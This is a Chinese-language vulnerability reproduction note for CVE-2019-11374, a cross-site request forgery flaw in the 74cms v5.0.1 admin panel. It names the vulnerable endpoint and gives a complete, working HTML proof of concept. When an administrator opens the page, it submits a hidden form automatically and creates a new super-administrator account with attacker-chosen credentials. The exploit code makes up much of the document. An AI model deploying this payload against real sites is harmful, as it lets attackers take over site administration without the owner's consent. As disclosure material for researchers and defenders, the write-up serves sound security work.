 <h1>（CVE-2019-11374）74cms v5.0.1 后台跨站请求伪造(CSRF)漏洞</h1>
<h2>一、漏洞简介</h2>
<p>在74CMS v5.0.1后台存在一个跨站请求伪造(CSRF)漏洞，该漏洞url：/index.php?m=admin&c=admin&a=add
攻击者可以利用该漏洞诱骗管理员点击恶意页面，从而任意添加一个后台管理员账户，达到进入后台，获得一个后台管理员角色的控制权。</p>
<h2>二、漏洞影响</h2>
<p>74CMS v5.0.1</p>
<h2>三、复现过程</h2>
<p>首先我们登录后台页面，并添加管理员，然后添加信息，用burp_suite抓包</p>
<p>当管理员登录后台后，点击攻击者发来的连接即可创建一个新的超级管理员账户</p>
<textarea>
<!DOCTYPE html>
<html>
  <head>
  <title> CSRF </title>
  <script type="text/javascript">
    function exec1(){
      document.getElementById('form1').submit();
    }
  </script>
  </head>
  <body onload="exec1();">
    <form id="form1" action="https://www.0-sec.org.com/index.php?m=Admin&c=admin&a=add" method="POST">
      <input type="hidden" name="username" value="admin688" />
  <input type="hidden" name="email" value="111111111@qq.com" />
      <input type="hidden" name="password" value="admin688" />
      <input type="hidden" name="repassword" value="admin688" />  
  <input type="hidden" name="role_id" value="1" />
    </form>
  </body>
</html>
</textarea>
<h2>参考链接</h2>
<p>https://www.023niu.com/show-62-32-1.html</p>
